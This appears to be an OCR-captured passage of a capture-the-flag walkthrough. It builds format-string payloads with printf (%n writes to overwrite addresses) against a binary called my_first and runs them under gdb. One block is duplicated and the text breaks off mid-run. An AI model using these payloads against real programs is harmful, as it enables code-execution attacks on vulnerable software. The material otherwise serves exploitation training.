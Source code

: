 Program received signal SIGSEGV, Segmentation fault.
0x00009060 in ?? ()
(gdb)
>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08%%36956u%%8$n' > payload
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ��    

Program received signal SIGSEGV, Segmentation fault.
0x00009060 in ?? ()
(gdb)
>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08%%36956u%%8$n' > payload
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ��    

Program received signal SIGSEGV, Segmentation fault.
0x00009060 in ?? ()
(gdb)


As we can see everything worked out! now we need to change the first half. here is what we did


>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%9$n' > payload
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit
